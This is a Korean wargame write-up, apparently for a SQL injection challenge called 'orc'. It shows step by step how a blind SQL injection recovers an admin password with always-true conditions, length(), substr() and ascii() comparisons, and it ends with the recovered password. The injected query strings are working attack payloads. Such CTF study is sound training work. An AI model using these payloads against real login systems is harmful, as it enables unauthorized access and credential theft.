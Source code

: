 ## Q4. orc _ 비밀번호 획득 실험실
<img src="/photo/prob_04.PNG" width="100%" height="100%" alt="problem"></img>

### 제한 문자: X <br> 문제 사항: admin의 패스워드를 찾아라.
### 해결책

```
먼저 쿼리문이 참이 되도록 만들어 봄
=> 논리를 이용
```
```diff
# 현재 쿼리문: where id='admin' and pw='' || 1--+
```
```
but. admin은 표시되나 문제가 해결되지는 않음
문제 해결을 위해서는 admin의 패스워드가 필요함
=> 패스워드가 문자열이므로 sql 문자열 관련 함수를 찾아봄
=> SUBSTR()함수를 찾아 이를 시도해봄
```
```diff
# 현재 쿼리문: where id='admin' and pw='' || substr(pw,1,1) = 'a' --+
```
```
but. 아무것도 뜨지 않음
=> a가 아닌 다양한 문자열 넣어봄
=> '0'에서 admin이 떠서 참이 되는 것을 확인함
```
```diff
# 현재 쿼리문: where id='admin' and pw='' || substr(pw,1,1) = '0' --+
```
```
위의 쿼리가 맞다는 것을 확인함
=> substr()함수 안의 시작위치 바꿔서 시도함
but. 시작위치가 얼마나 될지 확신을 먼저 확인해야함
=> sql 문자열 길이 함수를 찾아봄
=> length()함수를 찾아 이를 시도해봄
```
```diff
# 현재 쿼리문: where id='admin' and pw='' || length(pw) > 1 --+
```
```
admin이 떠서 이 쿼리가 참인것을 확인함
=> 숫자 증가시키며 패스워드 길이 찾음
=> 반복되는 작업이므로 파이썬 코드를 이용함
=> 밑의 쿼리가 참이므로 패스워드 길이 = 8
```
```diff
# 현재 쿼리문: where id='admin' and pw=''|| length(pw)=8--+
```
<참고> Python 코드 : [패스워드 길이 탐색](code/03_pwlength.py)
```
길이를 알아냄 -> 각자리의 문자 확인
=> SUBSTR()함수를 이용
but. 일일히 글자 맞추는 것 번거로움
=> 숫자를 이용해 크기 비교로 확인
=> 문자를 숫자로 바꾸어 주는 ASCII() 함수 이용
=> 반복되는 작업이므로 파이썬 코드를 이용함
```
```diff
# 현재 쿼리문: where id='admin' and pw=''|| ascii(substr(pw,1,1))=97--+
```
<참고> Python 코드 : [패스워드 문자 탐색](code/03_pw.py)
```
해결 쿼리문: where id='admin' and pw='095a9852'
```